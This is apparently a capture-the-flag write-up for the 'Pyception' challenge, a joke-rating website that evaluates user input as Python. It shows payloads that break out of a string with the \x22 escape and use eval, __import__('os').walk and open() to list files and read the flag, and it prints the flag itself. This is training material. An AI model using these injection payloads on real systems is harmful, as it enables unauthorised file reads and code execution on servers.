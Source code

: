 # Pyception

## Description

My friend loved making lame ahh dad jokes. so I made a website for him where I rated how lame his Dad jokes quotes were. Try it out

Author: @hyp3rd1a6lo

Flag Format: 0CTF{...}

## Flag

```
0CTF{0n3_Pyth0n_T0_Rul3_Th3m_All!}
```

## Solution

At first no exploits seem to work. The challenge is essentially reduced to closing the double quotes without using `"`.

After testing a fair bit we find that we can use escape codes for the ASCII values of the chars.

For example, `"\x41"` results in `A - Brilliantly said!`.

Using the escape code for a `"` in the following series of tests gives:

```
"\x22 + 'abc' + \x22"
abc - Absolutely spot on!
```

```
"\x22 + str(3 + 3) + \x22"
6 - Brilliantly said!
```

Still don't know why this one did not work.

```
"\x22 + str(__line__) + \x22"
:< Do not mess with syntax
```

```
"\x22 + str(eval('4 + 4')) + \x22"
8 - Absolutely spot on!
```

```
"\x22 + str(eval('__file__')) + \x22"
app.py - Couldn't agree more!
```

We can list out the directory content like:

```
"\x22 + str(eval('''list(__import__('os').walk('.'))''')) + \x22"
[('.', ['static', 'templates'], ['Dockerfile', 'app.py', 'requirements.txt']), ('./static', [], ['flag.txt', 'style.css']), ('./templates', [], ['index.html'])] - That's pure wisdom! 
```

And we can read the `flag.txt` file like:

```
"\x22 + str(eval('''open('./static/flag.txt').read()''')) + \x22"
 0CTF{0n3_Pyth0n_T0_Rul3_Th3m_All!} - That's pure wisdom! 
```

## References

## Attachments
